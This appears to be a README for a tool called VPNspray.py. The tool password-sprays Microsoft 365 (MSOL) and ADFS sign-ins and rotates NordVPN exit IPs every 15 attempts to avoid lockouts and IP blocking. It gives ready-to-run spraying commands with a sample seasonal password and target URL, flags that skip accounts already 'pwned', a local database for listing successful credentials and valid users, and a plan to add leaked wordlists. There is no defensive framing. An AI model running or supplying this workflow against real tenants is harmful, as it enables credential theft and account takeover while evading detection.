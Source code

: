 # Password spraying O365/ADFS with IP rotation (NordVPN)
Password spraying O365/ADFS with IP rotation (nordvpn) every 15 attempts

## Prerequisites

* Nordvpn client (tested on debian)
* Connect to nordvpn
```bash
sudo nordvpn login
```
* Python packages
```bash
pip3 install -r requirements.txt
```
## Managed tenant
### Usage
```bash
sudo python3 VPNspray.py -U users.txt -r 1 5 -p 'Winter2020*' --skip-tested --ignore-success --vpn --vpn-area "France,Germany,Netherlands,United Kingdom" msol
```
* **--vpn**: Use NordVPN to rotate IP.
* **--vpn-area**: Specify NordVPN region(s), uses `Europe` by default.
* **--ignore-success**: Do not test users already pwned.
* **--skip-tested**: Do not test user:password already tried.

## ADFS
### Usage
```bash
sudo python3 VPNspray.py -U users.txt -s 3 -p 'Winter2020*' -t https://adfs.example.com --skip-tested --ignore-success --vpn --vpn-area "France" adfs
```
* **-t**: ADFS target URL.
* **--vpn**: Use NordVPN to rotate IP.
* **--vpn-area**: Specify NordVPN region(s), uses `Europe` by default.
* **--ignore-success**: Do not test users already pwned.
* **--skip-tested**: Do not test user:password already tried.


## Retrieve data in local DB
1. Initialize/create the database (if not already done)
```bash
sudo python3 db_admin.py --init
```

2. List the 20 last "success"
```bash
sudo python3 db_admin.py --list-success --limit 20
```

3. List the "fail"
```bash
sudo python3 db_admin.py --list-fail
```

4. Print users that exist (MSOL only, ADFS script doesn't have this type of information **but** you can use MSOL script once on ADFS users to know if user exists or not in ADFS!)
```bash
sudo python3 db_admin.py --print-valid-users
```

5. Filtered request
```bash
sudo python3 db_admin.py --query --subject alice@example.com --status success --limit 10
```

6. CSV export
```bash
sudo python3 db_admin.py --export out.csv --limit 500
```

7 Purge events older than 60 days
```bash
sudo python3 db_admin.py --purge 60
```

# Roadmap
- Add an option for user:password wordlists (leaks)
